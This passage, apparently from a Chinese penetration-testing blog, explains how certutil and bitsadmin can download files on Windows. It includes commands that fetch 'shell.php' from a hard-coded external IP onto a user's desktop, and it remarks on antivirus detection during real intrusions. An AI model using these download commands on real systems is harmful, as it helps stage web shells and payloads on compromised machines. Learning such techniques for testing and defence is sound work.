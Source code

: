 

无论是bitsadmin还是certutil，都要将下载的文件放到拥有权限的目录，否则会提示权限拒绝



### **certutil**



certutil也是windows下一款下载文件的工具，自从WindowsServer 2003就自带。但是在Server 2003使用会有问题。也就是说，以下命令是在Win7及其以后的机器使用。



```
certutil -urlcache -split -f http://114.118.80.138/shell.php  #下载文件到当前目录下       
certutil -urlcache -split -f http://114.118.80.138/shell.php  c:/users/xie/desktop/shell.php        #下载文件到指定目录下
```




![](https://img-blog.csdnimg.cn/20190822164138129.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



但是该命令的使用会引发杀毒软件的查杀，所以在实际渗透中几乎不适用该命令



![](https://img-blog.csdnimg.cn/20191214231935333.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **bitsadmin**



bitsadmin  可以用来在windows 命令行下下载文件。bitsadmin是windows 后台智能传输服务的一个工具，windows 的自动更新，补丁之类的下载就是用这个工具来实现的。Windows Server2003和XP是没有bitsadmin的，Winc7及其之后的机器才有。



**bitsadmin的一些特性：**



*   bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。

*   bitsadmin 可以跟随URL跳转.

*   bitsadmin 不像curl  wget 这类工具那样能用来下载HTML页面。



用法：



```
bitsadmin /transfer test http://files.cnblogs.com/files/gayhub/bcn.js  c:\users\xie\desktop\shell.php      
# "任务名" 可以随意起，保存文件的文件路径必须是已经存在的目录，否则不能下载。
```




![](https://img-blog.csdnimg.cn/20190822162349756.png)
